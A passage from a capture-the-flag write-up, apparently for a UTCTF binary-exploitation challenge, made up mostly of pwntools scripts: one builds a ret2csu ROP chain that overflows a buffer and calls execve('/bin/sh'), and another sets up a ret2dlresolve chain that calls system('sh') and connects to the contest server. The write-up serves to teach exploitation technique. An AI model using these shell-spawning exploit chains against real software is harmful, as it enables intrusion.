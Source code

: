 ```python
  401213:   4c 89 ee                mov    rsi,r13
  401216:   44 89 e7                mov    edi,r12d
  401219:   41 ff 14 df             call   QWORD PTR [r15+rbx*8]
  40121d:   48 83 c3 01             add    rbx,0x1
  401221:   48 39 dd                cmp    rbp,rbx
  401224:   75 ea                   jne    401210 <__libc_csu_init+0x40>
  401226:   48 83 c4 08             add    rsp,0x8
  40122a:   5b                      pop    rbx
  40122b:   5d                      pop    rbp
  40122c:   41 5c                   pop    r12
  40122e:   41 5d                   pop    r13
  401230:   41 5e                   pop    r14
  401232:   41 5f                   pop    r15
  401234:   c3                      ret
'''

pop_rbx_rbp_r12_r13_r14_r15 = 0x40122a
set_rdx_rsi_rdi_call_r15 = 0x401210
pop_rdi = binary.search(asm('pop rdi; ret')).__next__()

payload  = b''
payload += 0x78 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.bss())
payload += p64(binary.plt.gets)
payload += p64(pop_rbx_rbp_r12_r13_r14_r15)
payload += p64(0)
payload += p64(1)
payload += p64(binary.bss())
payload += p64(0)
payload += p64(0)
payload += p64(binary.got.execve)
payload += p64(set_rdx_rsi_rdi_call_r15)
payload += 7 * p64(0)
payload += b'\n'
payload += b'/bin/sh\0'

p.sendline(payload)
p.interactive()
```

Baby talk ROP.  Google _ret2csu_ or read some of my other write ups for details.

But, what if there is no `execve` in the GOT?

No worries, we'll just use `system`:

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./AAAAAAAAAAAAAAAA', checksec=False)

rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]

dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('pwn.utctf.live', 5000)
```